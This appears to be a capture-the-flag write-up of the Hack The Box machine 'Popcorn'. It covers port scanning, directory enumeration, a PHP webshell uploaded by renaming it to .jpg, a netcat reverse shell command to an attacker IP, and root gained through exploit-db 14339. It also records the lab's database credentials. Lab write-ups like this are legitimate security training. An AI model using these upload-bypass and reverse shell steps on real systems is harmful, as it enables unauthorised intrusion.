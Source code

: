 # Summary



## about target

tip:  10.129.36.23

hostname:  Popcorn

Difficulty:  Medium



## about attack

+ web enum and exploit, jpg upload and webshell.
+ Privesc, MOTD File Tampering Privilege Escalation; 14339
+ dirty cow, exploit; https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs





**attack note**

```bash
Popcorn / 10.129.36.23

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.12 (Ubuntu)

---- interesting 



---- http enum
dir scan 
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.log  


register account;
Username:   hack01
Password:   Password!

upload torret file.


---- exploit 
edit the screenshot, upload php shell.

mv phpshell.php phpshell.php.jpg

# wolf shell
https://github.com/WhiteWinterWolf/wwwolf-php-webshell/raw/master/webshell.php

http://popcorn.htb/torrent/upload/19a6fcfcba6cc2c6d371eb754074d095adb5d291.php


---- local enum

torrent/config.php

dbname:torrenthoster
dbusername:torrent
dbpassword:SuperSecret!!


---- root
https://www.exploit-db.com/exploits/14339

```







# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.12 (Ubuntu)
```



## http enum

dir scan, /torrent

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.log
```



/torrent, default creds not work, register.

Username:   hack01
Password:   Password!



search exploit，nothing



# Exploit

upload torrent file and edit the screenshot.

![image-20221107232016785](./images/image-20221107232016785.png)

download wolfshell.

 https://github.com/WhiteWinterWolf/wwwolf-php-webshell/raw/master/webshell.php

change file extension and upload.

```bash
mv webshell.php webshell.php.jpg
```

intercept and  change the filename.

![image-20221107232245136](./images/image-20221107232245136.png)

web shell link;  from screenshot

http://popcorn.htb/torrent/upload/19a6fcfcba6cc2c6d371eb754074d095adb5d291.php

get shell

```bash
nc -e /bin/bash 10.10.14.20 4444
```

![image-20221107232356016](./images/image-20221107232356016.png)



# Privesc



## local enum

manual enum, db creds.

```bash
torrent/config.php

dbname:torrenthoster
dbusername:torrent
dbpassword:SuperSecret!!
```



/home/George/.cache dir, odd.



linpeas, not much.  some kernel exploit, not work.



from walkthrough, .cache exploit.

https://www.exploit-db.com/exploits/14339





## System

```bash
bash ./14339.sh 
```

got root.

![image-20221107232645003](./images/image-20221107232645003.png)



## proof

```bash


```



